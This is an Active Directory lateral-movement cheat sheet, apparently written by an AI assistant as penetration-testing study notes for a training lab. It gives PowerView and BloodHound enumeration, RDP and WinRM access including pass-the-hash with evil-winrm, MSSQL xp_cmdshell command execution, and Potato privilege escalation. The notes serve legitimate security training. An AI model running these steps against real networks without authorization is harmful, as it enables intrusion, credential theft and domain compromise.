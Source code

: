 # Lateral Movement Cheat Sheet

## 1. Goal

- After foothold → **lateral/vertical movement** → domain compromise or higher privileges.

---

## 2. Key Lateral Movement Techniques

- **Pass-the-Hash (SMB)** → when local admin rights available.
- **RDP** → GUI access to remote host.
- **WinRM / PowerShell Remoting** → command-line access, Enter-PSSession.
- **MSSQL Server** → sysadmin rights → run OS commands via `xp_cmdshell`.

---

## 3. Enumeration (Always Start Here)

### BloodHound edges to check:

- `CanRDP`
- `CanPSRemote`
- `SQLAdmin`

### PowerView commands:

```PowerShell
Get-NetLocalGroupMember -ComputerName <HOST> -GroupName "Remote Desktop Users"
Get-NetLocalGroupMember -ComputerName <HOST> -GroupName "Remote Management Users"
```

### BloodHound Cypher queries:

- Find users in the domain has CanPSRemote rights to a host?

```Plain
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group))
MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer)
RETURN p2
```

- **Find SQL Admins:**

```Plain
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group))
MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer)
RETURN p2
```

- **Pre-built BH queries:**
    - _Find Workstations where Domain Users can RDP_
    - _Find Servers where Domain Users can RDP_

---

## 4. RDP

### Enumeration

```PowerShell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```

- Look for `Domain Users` membership = **all users can RDP**.

### Exploitation

- Tools:
    - Linux → `xfreerdp`, `remmina`
    - Windows → `mstsc.exe`
- Use foothold creds → RDP → harvest creds, escalate, pivot.

---

## 5. WinRM / PowerShell Remoting

### Enumeration

```PowerShell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

### From Windows host

```PowerShell
$password = ConvertTo-SecureString "Pass123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("DOMAIN\User",$password)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
Exit-PSSession
```

### From Linux host

- Install:

```Bash
gem install evil-winrm
```

- Use:

```Bash
evil-winrm -i <IP> -u <USER> -p <PASS>
# or evil-winrm -i <IP> -u <USER> -H <NTHASH>
```

---

## 6. MSSQL

### Enumeration

PowerUpSQL:

```PowerShell
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```

### Authenticate & query

```PowerShell
Get-SQLQuery -Instance "IP,1433" -username "domain\user" -password "Pass123!" -query "SELECT @@version"
```

### From Linux (Impacket)

```Bash
mssqlclient.py domain/user@<IP> -windows-auth
```

### Commands (in SQL shell)

```SQL
enable_xp_cmdshell
xp_cmdshell whoami
xp_cmdshell whoami /priv
```

- Look for **SeImpersonatePrivilege / SeAssignPrimaryTokenPrivilege** → escalate with Potato exploits.

---

## 7. Privilege Escalation Indicators

Run:

```Shell
whoami /priv
```

Flags to watch:

- `SeImpersonatePrivilege`
- `SeAssignPrimaryTokenPrivilege`

Exploits: **JuicyPotato / PrintSpoofer / RoguePotato**

---

## 8. Tools Quick List

- **Enumeration:** BloodHound, PowerView
- **RDP:** xfreerdp, remmina, mstsc.exe
- **WinRM:** evil-winrm, Enter-PSSession
- **MSSQL:** PowerUpSQL, Impacket mssqlclient.py
- **Credential abuse:** Pass-the-Hash

---

## 9. Operational Checklist (Quick Flow)

1. **Run BloodHound** → look for `CanRDP`, `CanPSRemote`, `SQLAdmin`.
2. **Check local groups** with PowerView.
3. **RDP access?** → pivot, dump creds, escalate.
4. **WinRM access?** → `Enter-PSSession` or `evil-winrm`.
5. **SQL sysadmin?** → PowerUpSQL / mssqlclient → `xp_cmdshell`.
6. **Check privileges** (`whoami /priv`) → Potato escalation if possible.
7. **Repeat enumeration** from new host.

---

Would you like me to also **add a condensed “one-pager” version** (pure commands only, no explanation) so you can keep it open on a second screen during testing? That way you’d have both the structured notes and a bare-bones quick reference.